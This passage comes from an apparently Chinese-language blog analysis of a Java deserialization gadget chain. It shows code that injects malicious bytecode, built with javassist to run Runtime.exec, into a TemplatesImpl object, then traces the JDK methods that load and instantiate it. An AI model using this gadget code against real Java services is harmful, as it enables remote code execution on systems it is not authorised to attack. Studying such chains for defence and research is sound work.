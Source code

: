 ```java
    // inject class bytes into instance
    Reflections.setFieldValue(templates, "_bytecodes", new byte[][]{
        classBytes, ClassFiles.classAsBytes(Foo.class)
    });

    // required to make TemplatesImpl happy
    Reflections.setFieldValue(templates, "_name", "Pwnr");
    Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());
    return templates;
}
```

上面这段代码做了以下几件事：
1. 实例化了一个`org.apache.xalan.xsltc.trax.TemplatesImpl`对象templates，该对象`_bytecodes`可以存放字节码
2. 自己写了一个`StubTransletPayload`类 继承`AbstractTranslet`并实现`Serializable`接口
3. 获取`StubTransletPayload`字节码并使用javassist插入`templates`字节码(Runtime.exec命令执行)
4. 反射设置`templates`的`_bytecodes`为包含命令执行的字节码

> javassist是Java的一个库，可以修改字节码。参考 [javassist使用全解析](https://www.cnblogs.com/rickiyang/p/11336268.html)

现在准备好了反序列化的类，上个小结中我们实现了任意方法调用。在看exp中把`iMethodName`设置为`newTransformer`
![image.png](https://y4er.com/img/uploads/20200419221618.png)

然后到了`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#newTransformer`
![image.png](https://y4er.com/img/uploads/20200419228249.png)

跟进getTransletInstance()
![image.png](https://y4er.com/img/uploads/20200419227297.png)

根据方法名就能猜出来defineTransletClasses()是通过字节码定义类，然后通过newInstance()实例化，跟进defineTransletClasses()看下

```java
private void defineTransletClasses()
    throws TransformerConfigurationException {

    if (_bytecodes == null) {
        ErrorMsg err = new ErrorMsg(ErrorMsg.NO_TRANSLET_CLASS_ERR);
        throw new TransformerConfigurationException(err.toString());
    }

    TransletClassLoader loader = (TransletClassLoader)
        AccessController.doPrivileged(new PrivilegedAction() {
            public Object run() {
                return new TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
            }
        });

    try {
        final int classCount = _bytecodes.length;
        _class = new Class[classCount];

        if (classCount > 1) {
            _auxClasses = new HashMap<>();
        }

        for (int i = 0; i < classCount; i++) {
            _class[i] = loader.defineClass(_bytecodes[i]);
            final Class superClass = _class[i].getSuperclass();

            // Check if this is the main class
            if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
                _transletIndex = i;
            }
```